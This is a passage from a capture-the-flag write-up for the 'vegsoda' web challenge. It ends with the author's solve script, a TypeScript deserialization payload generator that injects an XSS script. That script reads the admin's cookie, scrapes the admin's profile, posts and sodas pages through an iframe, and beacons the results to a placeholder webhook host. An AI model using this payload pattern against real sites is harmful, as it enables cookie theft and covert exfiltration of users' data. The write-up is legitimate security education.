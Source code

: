 	<i>insert anxious refreshing as the queue takes its sweet 30 seconds</i>
</center>

And with just eight minutes to spare:
![486354395f9cee1c84f5ea0bf2700af4.png](../../resources/1ac60a6adba04d138f0dc209269e88ab.png)

We have a flag!

### The Solve Script

```ts
// payload-gen.ts version 3
import { Serializer } from "https://deno.land/x/superserial/mod.ts";
import Post from './Post.ts';
import Log from './Log.ts';
import Soda from './Soda.ts';
import Vio from './Vio.ts';
import Warning from './Warning.ts';

const serializer = new Serializer({ classes: {Post, Log, Vio, Soda, Warning} });
const UUID = "e3586424-e765-49c4-8556-57377aed08f3";

const note = `
<script>
    let ROOT = "https://vegsoda-web.2023.ctfcompetition.com/";
    let load = (i, s) => { i.src = s; return new Promise(r => i.onload = () => { i.onload = null; r(i.contentWindow.document.body.innerHTML) }) };
    let yoink = (s) => navigator.sendBeacon("[webhook]?q=" + encodeURIComponent(JSON.stringify(s)));
    yoink("payload deployed!");
    yoink(document.cookie);
    (async () => {  
        let i = document.createElement("iframe");
        document.body.appendChild(i);
        let profile = await load(i, ROOT + "profile");
        let posts = profile.match(/(?<=<li><a class="sodalink" href="\\/post\\/).*?(?=">)/gm);
        let sodas = profile.match(/(?<=<li><a class="sodalink" href="\\/sodas\\/).*?(?=">)/gm);
        yoink([posts, sodas]);
        for (let p of posts) {
            yoink((await load(i, \`\${ROOT}post/\${p}\`)).match(/(?<=<h2 class="page-section-heading text-center text-uppercase text-secondary mb-0">).*?(?=<\\/h2>)/gm));
        }
        for (let s of sodas) {
            yoink((await load(i, \`\${ROOT}sodas/\${s}\`)).match(/(?<=<p class="masthead-subheading font-weight-light mb-0">).*?(?=<\\/p>)/gm));
        }
        yoink(await load(i, "https://vegsoda-web.2023.ctfcompetition.com/status"));
    })()
</script>
`

let stopYouViolatedTheLaw = {
    id: UUID,
    userid: "arcblroth",
    level: "XSS",
    warning: Soda.getSoda(
        "Carrot", // rabbits unite!
        "admin",
```